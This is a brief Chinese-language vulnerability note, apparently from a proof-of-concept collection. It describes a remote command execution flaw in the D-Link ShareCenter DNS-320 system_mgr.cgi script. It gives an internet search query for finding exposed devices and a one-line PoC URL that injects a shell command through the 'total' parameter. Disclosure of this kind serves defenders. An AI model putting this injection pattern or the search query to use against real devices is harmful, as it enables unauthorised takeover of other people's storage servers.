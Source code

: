 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

# D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
D-Link ShareCenter DNS-320
```

## 网络测绘

```
app="D_Link-DNS-ShareCenter"
```

## 漏洞复现

登录页面如下

![](/images/202202162224540.png)

漏洞POC为

```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![](/images/202202162224614.png)


